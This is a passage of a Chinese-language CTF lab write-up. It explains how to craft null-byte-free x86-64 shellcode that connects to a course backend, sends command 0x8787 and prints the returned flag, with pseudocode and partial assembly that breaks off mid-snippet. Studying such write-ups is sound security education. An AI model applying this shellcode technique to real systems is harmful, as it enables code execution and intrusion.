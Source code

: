     # Connect to Backend
    connect(fd, (struct sockaddr *)&info, sizeof(info))
        
    # Write 0x8787 to fd
    struct Command cmd;
    cmd.cmd = 0x8787;
    write(fd, &cmd, sizeof(cmd));

    # Read the result from fd
    struct Response res;
    read(fd, $rsp, sizeof(res);
         
    # Write the result from fd to stdout
    write(1, $rsp, 0x40);
    ```
    簡單來說，前面需要我們設定socket的config，然後用這個config連線到後端，並且把command置換成0x8787，傳送到後端給的fd，這樣後段就會直接噴flag給我們(準確來說是那個fd)，所以我們要承接fd接到的flag並且送到stdout，大概是這樣，但這一連串的操作其實是助教一開始在課堂中有提示，並且看了@cs-otaku的WP也有提到該步驟才知道，所以如果都不知道以上操作的話要怎麼辦呢?我們可以想辦法把backend的binary讀出來，這樣的話就只能自行把backend的binary讀出來再去分析裡面的奧義
    
    我是直接用[godbolt](https://godbolt.org/)搭配[x86-64 disassembly](https://defuse.ca/online-x86-assembler.htm#disassembly)
    :::spoiler godbolt Result
    ![image](https://hackmd.io/_uploads/B1hxShgL6.png)
    :::
    不過正如@cs-otaku說的
    > 寫入content是用write去寫的。所以shellcode裡面不可以出現\x00這種東西

    所以我也是邊參考disassembly的結果慢慢看中間有沒有\x00的byte，如果有就要想其他的payload替換掉
    
    1. Socket Config
        像是這邊我不知道`AF_INET`所代表的byte是多少就可以直接看godbolt的結果，另外syscall要用哪一個可以參考[linux x86-64 syscall](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)，並且根據calling convention把shellcode擺好，切記看完之後要看一下轉換成shellcode看有沒有\x00的byte，可以用pwntools的asm function或是直接用[x86-64 disassembly](https://defuse.ca/online-x86-assembler.htm#disassembly)都可以達到一樣的效果
        ![image](https://hackmd.io/_uploads/HJUeP3lUp.png)
        ```python
        # int fd = socket(AF_INET, SOCK_STREAM, 0);
        socket = """
            xor rax, rax
            mov al, 0x29

            xor rdi, rdi
            mov dil, 0x2

            xor rsi, rsi
            mov sil, 0x1

